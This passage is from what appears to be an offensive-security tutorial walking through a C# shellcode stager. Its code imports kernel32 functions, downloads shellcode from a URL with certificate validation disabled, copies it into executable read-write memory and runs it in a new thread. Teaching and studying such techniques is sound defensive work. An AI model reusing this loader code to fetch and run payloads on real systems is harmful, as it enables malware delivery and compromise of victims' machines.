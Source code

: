 The part of the code in charge of importing these functions is the following:

```csharp
//https://docs.microsoft.com/en-us/windows/desktop/api/memoryapi/nf-memoryapi-virtualalloc
[DllImport("kernel32")]
private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);

//https://docs.microsoft.com/en-us/windows/desktop/api/processthreadsapi/nf-processthreadsapi-createthread
[DllImport("kernel32")]
private static extern IntPtr CreateThread(UInt32 lpThreadAttributes, UInt32 dwStackSize, UInt32 lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId);

//https://docs.microsoft.com/en-us/windows/desktop/api/synchapi/nf-synchapi-waitforsingleobject
[DllImport("kernel32")]
private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);
```

The most significant part of our code will be in the **`Stager()`** function, where the stager logic will be implemented. The Stager function will receive a URL from where the shellcode to be executed will be downloaded.

The first part of the **`Stager()`** function will create a new **`WebClient()`** object that allows us to download the shellcode using web requests. Before making the actual request, we will overwrite the **`ServerCertificateValidationCallback`** method in charge of validating SSL certificates when using HTTPS requests so that the WebClient doesn't complain about self-signed or invalid certificates, which we will be using in the web server hosting the payloads. After that, we will call the **`DownloadData()`** method to download the shellcode from the given URL and store it into the **`shellcode`** variable:

```csharp
WebClient wc = new WebClient();
ServicePointManager.ServerCertificateValidationCallback = delegate { return true; };
ServicePointManager.SecurityProtocol = SecurityProtocolType.Tls12;

byte[] shellcode = wc.DownloadData(url);
```

Once our shellcode is downloaded and available in the **`shellcode`** variable, we'll need to copy it into executable memory before actually running it. We use **`VirtualAlloc()`** to request a memory block from the operating system. Notice that we request enough memory to allocate **`shellcode.Length`** bytes, and set the **`PAGE_EXECUTE_READWRITE`** flag, making the assigned memory executable, readable and writable. Once our executable memory block is reserved and assigned to the **`codeAddr`** variable, we use **`Marshal.Copy()`** to copy the contents of the **`shellcode`** variable in the **`codeAddr`** variable.

```csharp
UInt32 codeAddr = VirtualAlloc(0, (UInt32)shellcode.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
Marshal.Copy(shellcode, 0, (IntPtr)(codeAddr), shellcode.Length);
```

Now that we have a copy of the shellcode allocated in a block of executable memory, we use the **`CreateThread()`** function to spawn a new thread on the current process that will execute our shellcode. The third parameter passed to CreateThread points to **`codeAddr`**, where our shellcode is stored, so that when the thread starts, it runs the contents of our shellcode as if it were a regular function. The fifth parameter is set to 0, meaning the thread will start immediately.
